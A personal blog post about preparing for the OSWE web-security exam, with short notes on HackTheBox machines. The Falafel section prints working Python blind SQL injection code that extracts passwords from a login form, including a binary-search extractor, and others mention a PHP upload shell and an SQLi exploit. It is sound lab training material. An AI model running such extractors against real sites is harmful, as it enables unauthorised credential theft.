 ```yaml
---
layout: post
title: OSWE preparation
date: 2023-12-23 10:14:00-0400
description: My OSWE examination preparation 
tags: preparation offsec oswe web
categories: cheetsheet
giscus_comments: true
related_posts: false
toc:
  sidebar: left
---
```


{% include figure.html path="assets/img/posts/oswe_preparation/oswe_introduction.jpg" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

### Introduction

{:data-toc-text="Introduction"}
Start of preparation for [OSWE](https://www.offsec.com/courses/web-300/) exam from OffSec :)\
Wanna blog my progress to preparations - share links, progress, minds about and e.t.c

---

### Сollecting material to study
{:data-toc-text="Material"}

For first, wanted to get information about exam format, people opinion who passed, found couple of pages:
* [Как я OSWE сдавал](https://habr.com/ru/companies/pm/articles/733170/)
* [Becoming a web security expert](https://habr.com/ru/companies/angarasecurity/articles/595071/)
* [An honest OSWE 2023 review](https://charchitverma100.medium.com/an-honest-oswe-2023-review-my-journey-preparation-and-exam-67d0adcbcde4)


After, i started to search technical material to prepare exam.\
There is [google table](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=665299979) with HackTheBox machines which can improve my skill for OSWE exam. IDK what these machines contain, i plan to solve and describe it later, when it be a christmas holidays. And take notes about all whitebox pentesting moments in these machines.

{% include figure.html path="assets/img/posts/oswe_preparation/htb_machines_table.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

There are machines i've decided to solve and write some descriptions:
* Blocky (Easy) 
* Help (Easy)
* Popcorn (Medium)
* Falafel (Hard)

Also, was found a nice [link](https://github.com/snoopysecurity/OSWE-Prep) that can be used too.

---
 
### HTB Machines
Next are reviews of hackthebox labs which have some OSWE-like challanges. I'm not going to describe every machine with full write up, I only notice key moments.


#### Blocky
Simply, dowload JD-GUI and explore couple of jar-files, located in [http://blocky.htb/plugins/](http://blocky.htb/plugins/).

JD-GUI is a standalone graphical utility that displays Java source codes of ".class" files. You can browse the reconstructed source code with the JD-GUI for instant access to methods and fields.

{% include figure.html path="assets/img/posts/oswe_preparation/blocky_jd_gui.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}


#### Help
SQL injection in 1.0.2 of HelpDeskZ - free PHP based software which allows to manage site's support with a web-based support ticket system.

Exploit-db have a Python-version [exploit](https://www.exploit-db.com/exploits/41200) for that CVE, but i've decided to create my own, Golang version, only for practice.

Here is [link](https://github.com/MikeDakotaStayTrue/Script4You/blob/main/helpdeskz_sqli_exploit.go) to my GitHub. Some coding was interesting and useful, that was my first full script on Golang.

{% include figure.html path="assets/img/posts/oswe_preparation/help_sqli.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}


#### Popcorn
Simple task to create PHP-shell for uploading, but bypassing some restrictions via injecting image magic bytes in shell. My choice was PNG.

{% include figure.html path="assets/img/posts/oswe_preparation/popcorn_png.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

Most cofortable for that task was Python, by my opinion, here is [link](https://github.com/MikeDakotaStayTrue/Script4You/blob/main/upload_php_png.py) to script.

#### Falafel
Here was Blind SQLi in the login form, where we could extract some passwords. I have wasted some time on script creation. The task was simple, but it was an annoying error that I couldn't understand while working with prepared requests in Python.

Next situation: for SQLi, I needed to send my body in POST request without URL-encoding, since that is the default behavior. But I found a way to bypass it by using prepared requests.

I have not found much practical information about using it, and finding errors myself is waiting for me.

Prepared statemets allow to change body after creating a request, but HTTP-header Content-length will not be updated. I didn't know it.


Final piece of code to send URL-decoded body:

```python
...
  sql_string = "admin'+and+ASCII(SUBSTRING(password,{},1))={}--+-".format(indx, chr_)
  data = {'username': sql_string, 'password':'pass'}

  req = requests.Request('POST', lab_url, data=data)
  
  prep = session.prepare_request(req)
  prep.body = urllib.parse.unquote(prep.body)
  prep.headers['Content-length'] = len(prep.body)

  resp = session.send(prep)
...
```

It's better to binary search instead of O(N), but im lazy. Here is proof of dupmping all tables:

{% include figure.html path="assets/img/posts/oswe_preparation/falafel_sqli_tables.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}

UPD, added function for binary search О(logN) - maybe will use it as basement for future tasks:

```python
def binary_extract_passwords():
    password = ""

    for indx in range(1, 40):
        left = 47
        right = 123

        while left <= right:
            cursor = left + (right - left) // 2

            # Check cursor (middle)
            sql_string = "admin'+and+ASCII(SUBSTRING(password,{},1))={}--+-".format(indx, cursor)
            resp = send_request(sql_string)

            if "Wrong identification" in resp.text:
                password = password + chr(cursor)
                break

            # Сheck sides
            sql_string = "admin'+and+ASCII(SUBSTRING(password,{},1))>{}--+-".format(indx, cursor)
            resp = send_request(sql_string)

            if "Wrong identification" in resp.text:
                left = cursor + 1
            else:
                right = cursor - 1
    print(password)
```

And [link](https://github.com/MikeDakotaStayTrue/Script4You/blob/main/blind_sqli_extractor.py) to my script.

{% include figure.html path="assets/img/posts/oswe_preparation/falafel_sqli_pass.png" title="oswe_preparation" class="img-fluid rounded z-depth-1" %}


---